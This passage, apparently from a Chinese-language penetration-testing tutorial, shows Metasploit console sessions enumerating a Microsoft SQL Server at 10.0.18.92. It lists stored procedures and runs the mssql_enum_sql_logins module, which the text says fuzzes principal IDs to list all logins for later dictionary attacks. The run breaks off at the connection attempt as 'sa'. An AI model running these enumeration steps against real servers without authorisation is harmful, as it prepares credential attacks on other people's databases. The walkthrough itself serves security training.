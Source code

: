 ```
[*] 10.0.18.92:1433 - 	sp_refreshview
[*] 10.0.18.92:1433 - 	sp_replcmds
[*] 10.0.18.92:1433 - 	sp_unprepare
[*] 10.0.18.92:1433 - 	sp_resyncprepare
[*] 10.0.18.92:1433 - 	sp_createorphan
[*] 10.0.18.92:1433 - 	xp_dirtree
[*] 10.0.18.92:1433 - 	sp_replwritetovarbin
[*] 10.0.18.92:1433 - 	sp_replsetoriginator
[*] 10.0.18.92:1433 - 	sp_xml_removedocument
[*] 10.0.18.92:1433 - 	sp_repldone
[*] 10.0.18.92:1433 - 	sp_reset_connection
[*] 10.0.18.92:1433 - 	xp_fileexist
[*] 10.0.18.92:1433 - 	xp_fixeddrives
[*] 10.0.18.92:1433 - 	sp_getschemalock
[*] 10.0.18.92:1433 - 	sp_prepexec
[*] 10.0.18.92:1433 - 	xp_revokelogin
[*] 10.0.18.92:1433 - 	sp_execute_external_script
[*] 10.0.18.92:1433 - 	sp_resyncuniquetable
[*] 10.0.18.92:1433 - 	sp_replflush
[*] 10.0.18.92:1433 - 	sp_resyncexecute
[*] 10.0.18.92:1433 - 	xp_grantlogin
[*] 10.0.18.92:1433 - 	sp_droporphans
[*] 10.0.18.92:1433 - 	xp_regread
[*] 10.0.18.92:1433 - 	sp_getbindtoken
[*] 10.0.18.92:1433 - 	sp_replincrementlsn
[*] 10.0.18.92:1433 - Instances found on this server:
[*] 10.0.18.92:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 10.0.18.92:1433 - 	xp_regread might be disabled in this system
[*] Auxiliary module execution completed

```

Enumerate all MSSQL logins

[Microsoft SQL Server SUSER_SNAME SQL Logins Enumeration](https://www.rapid7.com/db/modules/auxiliary/admin/mssql/mssql_enum_sql_logins/)

Microsoft SQL Server SUSER_SNAME SQL 登录枚举

此模块可用于从具有任何登录名的 SQL Server 获取所有登录名的列表。从 master..syslogins 表中选择所有登录名仅限于系统管理员。但是，具有 PUBLIC 角色（每个人）的登录可以使用 SUSER_SNAME 函数通过模糊 principal_id 参数快速枚举所有 SQL Server 登录。这很简单，因为分配给登录的主体 ID 是递增的。枚举登录后，可以通过 sp_defaultdb 错误分析对其进行验证。这很重要，因为并非所有主体 ID 都解析为 SQL 登录名（有些会解析为角色）。一旦枚举了登录名，它们就可以用于字典攻击。

```
msf6 auxiliary(admin/mssql/mssql_enum) > use auxiliary/admin/mssql/mssql_enum_sql_logins
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > show options

Module options (auxiliary/admin/mssql/mssql_enum_sql_logins):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   FuzzNum              300              yes       Number of principal_ids to fuzz.
   PASSWORD                              no        The password for the specified username
   RHOSTS               10.0.18.92       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                1433             yes       The target port (TCP)
   TDSENCRYPTION        false            yes       Use TLS/SSL for TDS data "Force Encryption"
   USERNAME             sa               no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false            yes       Use windows authentification (requires DOMAIN option set)

msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > run
[*] Running module against 10.0.18.92

[*] 10.0.18.92:1433 - Attempting to connect to the database server at 10.0.18.92:1433 as sa...
```